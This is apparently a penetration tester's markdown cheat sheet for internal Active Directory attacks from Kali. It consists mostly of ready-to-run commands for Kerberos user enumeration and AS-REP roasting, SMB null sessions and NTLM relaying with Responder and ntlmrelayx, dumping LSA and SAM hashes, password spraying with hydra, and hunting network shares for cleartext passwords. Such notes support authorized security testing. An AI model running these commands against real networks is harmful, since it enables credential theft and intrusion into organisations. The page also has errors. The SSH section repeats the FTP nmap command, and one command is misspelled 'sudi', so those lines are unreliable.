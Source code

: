 # Internal (Kali)

Starting with some [NMap Scans/Scripts](../../tools/enumeration/nmap.md) we can find plenty of other information for more targeted attacks and finding other attack paths/vectors. Then depending if we were given user credentials to perform a "compromised user" approach, we can go down other paths, but either way we would want to check for all of these with and without credentials.

***

## User Enumeration

Without already being given user credentials, we can try to find some using [Kerbrute](https://github.com/ropnop/kerbrute/releases), and [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py). These methods can be loud but still effective.

* [Kerbrute](https://github.com/ropnop/kerbrute/releases) - A little louder

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
```

```
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt -v -o Outfile.txt
```

* [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) - Can be stealthy but not always.

```
GetNPUsers.py DOMAIN/ -usersfile USERLIST.txt -dc-ip DC-IP -no-pass
```

***

## SMB Null Sessions

I like to use [SMBCrunch](https://github.com/Raikia/SMBCrunch)(SMBHunt.pl), and [Netexec](https://github.com/Pennyw0rth/NetExec)

* [SMBCrunch](https://github.com/Raikia/SMBCrunch)

```
git clone https://github.com/Raikia/SMBCrunch.git && cd SMBCrunch
```

```
sudo ./smbhunt.pl -i ../445.txt
```

* [Netexec](https://github.com/Pennyw0rth/NetExec)

```
sudi netexec smb <target-ip> -u "" -p "" --shares
```

* View Null sessions with

```
sudo smbclient -L //target/share -U ""
```

***

## SMB Relays

If SMB Signing is not Required for multiple machines, we can attempt to abuse SMB Relays with [Responder](https://github.com/lgandx/Responder), [NTLMRelayX](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (From Impacket), and [Proxychains](https://github.com/haad/proxychains).

1. Disable SMB and HTTP in Responder.conf (/etc/responder/Responder.conf):

```bash
sudo sed -i 's/SMB = On/SMB = Off/g' /etc/responder/Responder.conf
```

```bash
sudo sed -i 's/HTTP = On/HTTP = Off/g' /etc/responder/Responder.conf
```

2. Change the proxychains config (/etc/proxychains4.conf)

```bash
sudo sed -i 's/9050/1080/g' /etc/proxychains4.conf
```

4. Use [NetExec](https://github.com/Pennyw0rth/NetExec) to generate a list of hosts that has SMB signing not required (--gen-relay-list)

```bash
sudo netexec smb up-hosts.txt --gen-relay-list relay.txt
```

5. Run [Responder](https://github.com/lgandx/Responder)

```
sudo python3 /usr/share/responder/Responder.py -I eth0 -PDv --lm
```

6. Run [NTLMRelayX](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) in a new window/tab while Responder is running.

```
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf relay.txt -socks -smb2support -i -of relyed-hashes.txt
```

When we have capture relays, we can try and crack the captured hashed, but while we crack them we can abuse the relays using [NetExec](https://github.com/Pennyw0rth/NetExec).

* View Shares hosted on target machine

```bash
sudo proxychains4 netexec smb ip -u user -p '' --shares
```

* Dump LSA

```
sudo proxychains4 netexec smb ip -u user -p '' --lsa
```

Dump SAM hashes

```
sudo proxychains4 netexec smb ip -u user -p '' --sam
```

***

## General Enumeration

Finding Domain Controller IP. These aren't guaranteed but can be used in most cases.

* Using NSLookup

```
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>
```

* Using DIG

```
dig _ldap._tcp.dc._msdcs.<domain> SRV
```

* Checking /etc/resolv.conf

```
cat /etc/resolv.conf
```

### Web Services

* Look at all http/https pages for login pages, information disclosure, default login credentials, robots.txt, and other directories.
* [Ffuf](https://github.com/ffuf/ffuf)&#x20;
  * Will need a fuzzling wordlist list, such as [Seclists](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content)

```
sudo ffuf -recursion -mc all -ac -c -e https://domain/FUZZ -w wordlist.txt
```

```
sudo ffuf -recursion -mc all -ac -c -e .htm,.shtml,.php,.html,.js,.txt,.zip,.bak,.asp,.aspx,.xml -w wordlist.txt -u https://domain/FUZZ -fc 400,401,403,404,406,500,502 > domain.txt
```

### FTP

Checking if FTP is open, and if anonymous login is enabled.

```
sudo nmap -p 21 --script ftp-anon -iL 21.txt
```

### SSH

Checking  if SSH is open and if it takes password authentication.

```
sudo nmap -p 21 --script ftp-anon -iL 21.txt
```

***

## Password Spraying

### SMB

* [SMBSpray](https://github.com/absolomb/smbspray)

```
git clone https://github.com/absolomb/smbspray.git && cd smbspray
```

```
python3 smbspray.py -u users.txt -p passwords.txt -ip DC-IP
```

### SSH

* Using [hydra](https://github.com/vanhauser-thc/thc-hydra)

```
hydra -L users.txt -P passwords.txt ssh://IP
```

***

## Post Exploitation

Once we have obtained credentials we can find even more info. I like to find more info from: [LDAPDomainDump](https://github.com/dirkjanm/ldapdomaindump), Bloodhound ([Bloodhound.py](http://bloodhound.py/)), and [Manspider](https://github.com/blacklanternsecurity/MANSPIDER).

### Bloodhound / [Bloodhound-Python](http://bloodhound.py/)

```bash
sudo bloodhound-python -u USER -p PASSWORD -ns DNS Server -d DOMAIN -c All
```

Once we have the .json files, we can ingest them into bloodhound to look for domain admins, kerberoastable accounts, and more.

### [LDAPDomainDump](https://github.com/dirkjanm/ldapdomaindump)

```bash
sudo ldapdomaindump -u DOMAIN\\USER -p PASSWORD IP
```

### [ManSpider](https://github.com/blacklanternsecurity/MANSPIDER)

Crawl network shares to find any helpful info, such as files with cleartext passwords, password databases, and more.

* Install

```
pipx install git+https://github.com/blacklanternsecurity/MANSPIDER
```

* Search hostname/IP for files with "passw" in the name:

```
manspider TARGET -f passw -d DOMAIN -u USER -p 'PASSWORD'
```

* Search for documents containing passwords

```
manspider TAGRGET -c passw -d DOMAIN -u USER -p 'PASSWORD'
```

***


